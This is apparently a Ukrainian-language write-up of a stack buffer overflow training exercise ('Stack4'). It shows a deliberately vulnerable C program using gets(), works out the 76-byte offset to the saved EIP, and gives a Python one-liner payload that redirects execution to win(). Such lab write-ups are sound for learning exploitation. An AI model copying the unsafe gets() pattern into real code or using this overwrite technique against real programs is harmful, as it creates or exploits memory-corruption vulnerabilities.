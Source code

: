 # STACK4

Цей рівень розглядає перезапис збереженого EIP і стандартне переповнення буфера.

Вихідний код для Stack4:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
У цій вправі ми будемо орієнтуватися на адресу повернення основної функції, EIP. Простіше кажучи, коли програма або функція завершує виконання, вона повинна повернутися до того, що її викликає. Ця адреса зберігається в стеку на початку фрейму. 

Переповнити буфер і збільшувати його, щоб визначити при якій кількості байтів ми отримаємо повідомлення про segmentation fault.

![image](https://user-images.githubusercontent.com/47494881/147489283-83764b42-e061-4dc2-846a-af62af1bcd66.png)

Щоразу я збільшувався на 4, оскільки EIP займає чотири байти. У будь-якому випадку, ми можемо сказати, що після 76 байт є область, яка перезаписує EIP, тому нам знадобиться 76 'а' і адреса win в Little Endian

Щоб знайти адресу функції win скористаємось командою objdump.

![image](https://user-images.githubusercontent.com/47494881/147489530-8139c2b5-57f3-429e-a737-1a8f64eaed6d.png)

Наша виграшна адреса 0x080483f4. Тепер нам просто потрібно використовувати Python, щоб надрукувати 76 ‘a’, а потім адресу в Little Endian.
```
python -c "print('a' * 76 + '\xf4\x83\x04\x08')" | ./stack4
```
![image](https://user-images.githubusercontent.com/47494881/147489760-96bbeaac-dd7b-40ff-81b4-fede045a4d20.png)
